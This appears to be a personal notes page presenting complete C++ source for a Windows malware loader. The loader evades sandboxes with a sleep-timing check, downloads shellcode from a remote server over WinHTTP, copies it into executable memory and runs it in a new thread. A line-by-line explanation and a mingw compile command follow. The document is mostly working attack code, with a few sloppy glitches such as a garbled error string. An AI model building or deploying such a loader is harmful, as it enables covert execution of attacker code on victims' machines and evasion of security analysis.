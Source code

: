 
This code is a **C++ Windows malware loader** — it bypasses dynamic analysis, downloads shellcode from a remote server, allocates memory, writes the shellcode into it, and executes it. Below is a breakdown of each part

```C++
#include <windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>

#pragma comment(lib, "winhttp.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")
#pragma comment(lib, "ntdll")

void BypassDynamicAnalysis()
{

	int tick = GetTickCount64();
	Sleep(5000);
	int tock = GetTickCount64();
	if ((tock - tick) < 4500)
		exit(0);
}

std::vector<BYTE> Download(LPCWSTR baseAddress,int port,LPCWSTR filename)
{
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        0);

    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        port,
        0);


    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        0);

    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    WinHttpReceiveResponse(
        hRequest,
        NULL);

    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}

wchar_t* CharArrayToLPCWSTR(const char* array)
{
	wchar_t* wString = new wchar_t[4096];
	MultiByteToWideChar(CP_ACP, 0, array, -1, wString, 4096);
	return wString;
}

int main(int argc, char* argv[])
{
    BypassDynamicAnalysis();
    std::vector<BYTE> recvbuf;
    recvbuf = Download(L"ip", std::stoi("port"), L"/test.bin");
    
	LPVOID alloc_mem = VirtualAlloc(NULL, recvbuf.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	if (!alloc_mem) {
		printf("Well... it failed! (%u)\n", GetLastError());
		return -1;
	}

	CopyMemory(alloc_mem, recvbuf.data(), recvbuf.size());

	DWORD oldProtect;
	if (!VirtualProtect(alloc_mem, sizeof(recvbuf), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed sd asd asd asdto change memory protection (%u)\n", GetLastError());
		return -2;
	}

	HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
	if (!tHandle) {
		printf("Failed thread (%u)\n", GetLastError());
		return -3;
	}
	printf("\n\nalloc_mem address : %p\n", alloc_mem);
	WaitForSingleObject(tHandle, INFINITE);
	((void(*)())alloc_mem)();

	return 0;

}
```



```
void BypassDynamicAnalysis()
{
    int tick = GetTickCount64();
    Sleep(5000);
    int tock = GetTickCount64();
    if ((tock - tick) < 4500)
        exit(0);
}

```

Detects if it's running in a sandbox or under analysis by checking whether the `Sleep(5000)` actually delays for 5 seconds.

```
wchar_t* CharArrayToLPCWSTR(const char* array)

```

- Converts a regular `char*` string to `LPCWSTR`.
    
- Not actually used in this code right now, could be for future dynamic inputs.

```
LPVOID alloc_mem = VirtualAlloc(...);
CopyMemory(...);
VirtualProtect(...);
CreateThread(...);
```

- **`VirtualAlloc`**: Allocates memory with `PAGE_EXECUTE_READWRITE`.
    
- **`CopyMemory`**: Copies the downloaded shellcode into the allocated buffer.
    
- **`VirtualProtect`**: Changes the memory to `PAGE_EXECUTE_READ`, reducing detection risk.
    
- **`CreateThread`**: Executes the shellcode in a new thread.
    
- **`WaitForSingleObject`**: Waits for the shellcode thread to finish execution.


Now, we can perform the compilation as follows:

```
x86_64-w64-mingw32-g++ --static webloader.cpp -o webloader.exe -lwinhttp -fpermissive
```


![[Screenshot From 2025-04-18 16-06-06.png]]


![[Pasted image 20250418160619.png]]
